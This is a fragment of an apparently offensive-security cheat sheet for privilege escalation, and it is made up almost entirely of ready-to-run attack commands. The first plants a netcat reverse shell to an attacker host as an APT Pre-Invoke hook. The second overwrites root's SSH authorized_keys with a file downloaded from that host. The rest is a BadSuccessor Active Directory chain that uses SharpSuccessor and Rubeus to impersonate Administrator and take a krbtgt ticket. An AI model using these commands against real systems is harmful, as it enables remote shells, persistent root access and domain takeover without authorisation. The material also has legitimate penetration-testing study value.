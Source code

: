 ## APT

```console
$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f"};' > /etc/apt/apt.conf.d/<FILE>
```

## arua2c

```console
$ aria2c -d /root/.ssh/ -o authorized_keys "http://<LHOST>/authorized_keys" --allow-overwrite=true
```

## BadSuccessor

> https://github.com/akamai/BadSuccessor

### Prerequisistes

```cmd
$relevantRights = "CreateChild|GenericAll|WriteDACL|WriteOwner"
```

### Validation

```cmd
PS C:\> .\Get-BadSuccessorOUPermissions.ps1
```

### Execution

> https://github.com/logangoins/SharpSuccessor/

```cmd
PS C:\> .\SharpSuccessor.exe add /path:"ou=<GROUP>,dc=<DOMAIN>,dc=<DOMAIN>" /account:<USERNAME> /name:<DMSA> /impersonate:Administrator
```

```cmd
PS C:\> .\Rubeus.exe tgtdeleg /nowrap
```

```cmd
PS C:\> .\Rubeus.exe asktgs /targetuser:<DMSA>$ /service:krbtgt/<DOMAIN> /opsec /dmsa /nowrap /ptt /ticket:<TICKET>
```

```cmd
PS C:\> dir \\<RHOST>\C$\Users\Administrator\Desktop\
```

## BadSuccessor.py

> https://github.com/cybrly/badsuccessor

## Bash
